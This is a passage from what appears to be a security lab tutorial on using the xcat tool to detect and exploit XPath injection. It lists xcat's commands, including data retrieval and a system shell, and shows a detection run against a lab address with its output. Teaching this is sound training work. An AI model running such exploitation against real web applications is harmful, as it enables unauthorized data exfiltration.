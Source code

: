 Afterward, we can view the different xcat commands by displaying the general help:

```shell
xcat --help

Usage: xcat [OPTIONS] COMMAND [ARGS]...

Options:
  --version  Show the version and exit.
  --help     Show this message and exit.

Commands:
  detect
  injections
  ip
  run
  shell

```

The core commands are:

- `detect`: detect XPath injection and print the type of injection found
- `injections`: print all types of injection supported by xcat
- `ip`: print the current external IP address
- `run`: retrieve the XML document by exploiting the XPath injection
- `shell`: xcat shell to run system commands

Each command has its own help, which we can display by running `xcat <command> --help`.

* * *

## Data Exfiltration

We must supply xcat with the vulnerable parameter and a list of GET parameters it should send. Additionally, xcat requires a `true-string`, indicating whether the query returned data. Let us look at the lab from the `Data Exfiltration` section. The lab is vulnerable to XPath injection in the `q` parameter. However, we also need to send the `f` parameter. Furthermore, we know that the query returned data whenever the response does `NOT` contain the phrase `No Result`. We can thus specify a negated `true-string` by prepending an exclamation mark. The final command looks like this:

```shell
xcat detect http://172.17.0.2/index.php q q=BAR f=fullstreetname --true-string='!No Result'

function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: False
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: False
environment-variables: False
document-uri: False
base-uri: False
current-datetime: False
unparsed-text: False
doc-function: False
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False

```